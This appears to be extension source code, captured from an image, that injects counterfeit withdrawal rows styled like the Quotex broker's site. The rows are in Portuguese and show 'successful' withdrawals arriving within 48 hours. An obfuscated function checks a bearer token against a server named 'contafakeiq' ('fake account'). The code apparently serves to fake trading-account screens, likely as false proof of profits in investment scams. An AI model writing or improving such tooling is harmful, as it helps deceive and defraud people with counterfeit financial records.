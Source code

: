 function getRow(itemWD){
  let html = '';
  html += '<div id="elm-' + itemWD.id + '" class="row">';
  html += '<div class="col col--collapse">';
  html += '<div class="col">' + itemWD.id + '</div>';
  html += '<div class="col col--spaced col--mute-md">';
  html += '<span>' + formatDate(itemWD.date) + '</span>';
  html += '<span class="text-muted hide-md-down">' + itemWD.date.toLocaleTimeString('pt-BR') + '</span>';
  html += '</div>';
  html += '</div>';
  html += '<div class="col col--icon-success ">';
  html += '<div class="withdrawal-table__block">';
  html += '<div class="icon">';
  html += '<svg class="icon-check-tiny">';
  html += '<use xlink:href="https://qxbroker.com/profile/images/spritemap.svg#icon-check-tiny"></use>';
  html += '</svg>';
  html += '</div>';
  html += '<span style="white-space: nowrap; ">Bem-sucedido</span>';
  html += '</div>';
  html += '<div class="withdrawal-table__container">A retirada está sendo processada no lado do operador financeiro. Aguarde - os fundos devem ser recebidos dentro de 48 horas.</div>';
  html += '</div>';
  html += '<div class="col col--collapse col--swap col--right">';
  html += '<div class="col col--spaced">';
  html += '<span>' + itemWD.method + '</span>';
  html += '</div>';
  html += '<div class="col col--right text-danger"><b>-' + itemWD.value.toFixed(2) + ' ' + lanes[currency].cifrao + '</b></div>';
  html += '</div>';
  html += '</div>';
  return html;
}

const _0x16fb07 = async (_0x2105a1) => {
  const _0x18db4d = 'https://painel.contafakeiq.online/wp-json/quotex',
    _0x4d17f2 = _0x18db4d + '/verify/',
    _0x54a396 = {
      method: 'POST',
      body: null,
      headers: { Authorization: 'Bearer ' + _0x2105a1 },
    },
    _0x448502 = await fetch(_0x4d17f2, _0x54a396),
    _0x58272d = await _0x448502.json()
  return _0x58272d
}

function getUser(cb) {
  chrome.storage.local.get(['user'], cb);
}
